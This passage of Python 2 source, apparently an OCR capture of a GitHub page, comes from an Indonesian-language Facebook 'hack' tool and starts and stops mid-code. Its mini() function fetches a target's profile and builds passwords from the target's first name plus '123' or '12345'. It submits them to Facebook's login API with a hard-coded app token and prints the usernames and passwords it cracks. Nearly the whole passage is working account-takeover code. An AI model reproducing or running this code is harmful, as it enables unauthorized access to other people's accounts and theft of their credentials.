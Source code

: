                             else:
                                if hack == '0':
                                    menu()
                                else:
                                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + hack + ' \x1b[1;91mTidak ada'
                                    hack_pilih()


def mini():
    os.system('reset')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('reset')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        print '\x1b[1;91m[ INFO ] Akun target harus berteman dengan akun anda dulu !'
        try:
            id = raw_input('\x1b[1;91m[+] \x1b[1;92mID Target \x1b[1;91m:\x1b[1;97m ')
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
            r = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)
            a = json.loads(r.text)
            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNama\x1b[1;97m : ' + a['name']
            jalan('\x1b[1;91m[+] \x1b[1;92mMemeriksa \x1b[1;97m...')
            time.sleep(2)
            jalan('\x1b[1;91m[+] \x1b[1;92mMembuka keamanan \x1b[1;97m...')
            time.sleep(2)
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mMohon Tunggu sebentar \x1b[1;97m...')
            print 40 * '\x1b[1;97m\xe2\x95\x90'
            pz1 = a['first_name'] + '123'
            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
            y = json.load(data)
            if 'access_token' in y:
                print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1
                raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                menu_hack()
            else:
                if 'www.facebook.com' in y['error_msg']:
                    print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                    print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1
                    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                    menu_hack()
                else:
                    pz2 = a['first_name'] + '12345'
                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    y = json.load(data)
                    if 'access_token' in y:
                        print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                        print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']